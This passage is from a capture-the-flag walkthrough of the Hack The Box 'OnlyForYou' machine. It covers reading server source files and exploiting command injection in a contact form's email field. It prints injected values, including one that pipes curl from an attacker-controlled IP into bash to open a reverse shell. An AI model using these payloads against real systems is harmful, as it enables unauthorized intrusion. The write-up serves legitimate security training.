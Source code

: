 As we know the running server is `nginx`, we can try to read `nginx.conf`.

![nginx-conf](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/nginx-conf.png)

We can see that we have `/etc/nginx/sites-enabled/` let's read the `/default`.

![nginx-default](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/nginx-default.png)

We have `app.py` in beta folder, so let's read `app.py` using `/var/www/only4you/app.py`.

![only4you-app](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/only4you-app.png)

We can see above that the code imports the `form` library which is not a python built-in library, so a file with the library name `form.py` must be found on the server. Let's read it.

![only4you-form](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/only4you-form.png)

## Command injection

As we can see the domain of the `email` parameter is appended to the `dig` command line, and so it indicates a command injection vulnerability.

So let's first fill out the form of `contact` and intercept the request in Burp.

![only4you-contact](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/only4you-contact.png)

Now let's try to test the `email` parameter with `test@test.com|ping 10.10.x.x`.

![command-injection-test-1](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/command-injection-test-1.png)

It responds to our listener which means that the code is vulnerable to command injection.

![command-injection-test-2](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/command-injection-test-2.png)

Now let's try to get a reverse shell but If we inject the shell directly in the `email` parameter it won't work, so we can first create a file with our shell:

![revshel-payload](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/revshel-payload.png)

The we can call it using `test@test.com|curl http://10.10.16.47/revshell.sh|bash`.

![revshell-payload](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/revshell-payload.png)

Now we get a reverse shell as seen below.

![revshell](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/revshell.png)

## Shell as john

When we check the machine manually, we can find the following open ports.

![netstat](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/netstat.png)

Ports `3000`, `8001` look interesting, so let's forward these ports to our machine using [chisel](https://github.com/clcarwin/chisel-TCP-over-HTTP) so we can check the services running on them.
